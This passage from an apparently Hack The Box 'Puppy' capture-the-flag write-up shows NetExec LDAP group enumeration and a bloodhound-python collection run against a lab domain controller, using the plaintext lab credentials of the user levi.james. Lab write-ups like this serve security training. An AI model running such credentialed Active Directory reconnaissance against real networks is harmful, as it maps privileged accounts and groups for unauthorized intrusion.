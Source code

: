 ```
LDAP                     10.10.11.70     389    DC               DEVELOPERS                               membercount: 3

fcoomans@kali:~/htb/puppy$ nxc ldap dc.puppy.htb -u levi.james -p KingofAkron2025! --groups "Administrators"
LDAP        10.10.11.70     389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
LDAP        10.10.11.70     389    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
LDAP        10.10.11.70     389    DC               Stephen A. Cooper_adm
LDAP        10.10.11.70     389    DC               Domain Admins
LDAP        10.10.11.70     389    DC               Enterprise Admins
LDAP        10.10.11.70     389    DC               Administrator

fcoomans@kali:~/htb/puppy$ nxc ldap dc.puppy.htb -u levi.james -p KingofAkron2025! --groups "Remote Management Users"
LDAP        10.10.11.70     389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
LDAP        10.10.11.70     389    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
LDAP        10.10.11.70     389    DC               Stephen W. Cooper
LDAP        10.10.11.70     389    DC               Adam D. Silver

fcoomans@kali:~/htb/puppy$ nxc ldap dc.puppy.htb -u levi.james -p KingofAkron2025! --groups "HR"
LDAP        10.10.11.70     389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
LDAP        10.10.11.70     389    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
LDAP        10.10.11.70     389    DC               Levi B. James

fcoomans@kali:~/htb/puppy$ nxc ldap dc.puppy.htb -u levi.james -p KingofAkron2025! --groups "SENIOR DEVS"
LDAP        10.10.11.70     389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
LDAP        10.10.11.70     389    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
LDAP        10.10.11.70     389    DC               Anthony J. Edwards

fcoomans@kali:~/htb/puppy$ nxc ldap dc.puppy.htb -u levi.james -p KingofAkron2025! --groups "DEVELOPERS"
LDAP        10.10.11.70     389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
LDAP        10.10.11.70     389    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
LDAP        10.10.11.70     389    DC               Jamie S. Williams
LDAP        10.10.11.70     389    DC               Adam D. Silver
LDAP        10.10.11.70     389    DC               Anthony J. Edwards
```

The `bloodhound-python` BloodHound collector was ran and the results ingested into BloodHound.

```
fcoomans@kali:~/htb/puppy$ bloodhound-python --zip -ns 10.10.11.70 -d puppy.htb -c All --dns-tcp -u levi.james -p KingofAkron2025!
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: puppy.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 10 users
INFO: Found 56 groups
INFO: Found 3 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
```